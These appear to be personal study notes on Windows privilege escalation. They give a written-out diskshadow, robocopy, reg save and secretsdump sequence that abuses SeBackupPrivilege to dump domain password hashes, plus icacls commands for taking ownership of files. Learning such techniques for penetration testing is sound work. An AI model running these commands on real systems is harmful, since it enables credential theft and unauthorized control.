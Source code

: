 ### TODO:
1. Learn how to make exe's using windows.h
2. Learn how to make DLL's https://www.youtube.com/watch?v=3eROsG_WNpE&t=25s https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking#your-own
3. Learn how to manipulate process memory using windows API and try to implement https://github.com/AlienX2001/PSBits/tree/master/EnableAllParentPrivileges
4. Implementing https://daniels-it-blog.blogspot.com/2020/07/uac-bypass-via-dll-hijacking-and-mock.html?m=1

## usually you just find services worth exploiting and then exploit them do priv esc but for a reference and as a compilation of my past experiences here is the notes
- first enumerate and gather all info
- using winpeas look for files/folders owned by system and we also have perms to read/write or execute refer to winpeas docs for the full form of codes displayed by winpeas over files/folders
- we can leverage services which create proccess with system privs and hence get a system shell

## If we need to enable all privs listed in a cmd shell session then we can follow these tweets and repos
https://twitter.com/0gtweet/status/1479813175046516738?t=x-BDnA-QT9hQ2eIbEw4P8g&s=19 and https://github.com/gtworek/PSBits/tree/master/EnableAllParentPrivileges

## escalation through certain privs
### SeBackupPrivilege and SeRestorePrivilege
If we have these 2 privs then what we can do is, we can create a backup of the C drive into some other drive of our choice(E drive here), this will also result in forming the backup of the C:\windows\ntds which we can use along with the master key extracted from system registry hive to decrypt the ntds file to get hashes of all users on that machine.
This can be done by 1st copying this into a txt file
```
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```
and then using diskshadow to create a shadow copy(backup) of ther C drive via `diskshadow /s FILENAME.txt` FILENAME being the filename of the above txt file. Now our shadow copy is ready. Now we will use robocopy to copy the ntds from the E drive to our working directory via `robocopy /b E:\Windows\ntds . ntds.dit`. Now we have a copy of ntds, and are in need of the master key which needs the system registery hive, which can by saved via `reg save hklm\system "FULL PATH\system"` now we will transfer the ntds.dit file and system save file to our kali machine and use secretsdump's LOCAL mode to decrypt the ntds via `secretsdump.py LOCAL -ntds "PATH TO NTDS FILE" -system "PATH TO SYSTEM FILE"`

### SeTakeOwnershipPrivilege
Using this priv, we can simply take ownership of any file we want access to, and by taking ownership, we have full control over the object. We can take ownership of any object using icacls via 1st `icacls "FILENAME" /setowner "USERNAME"` and then `icacls "FILE NAME" /grant "USERNAME":F`

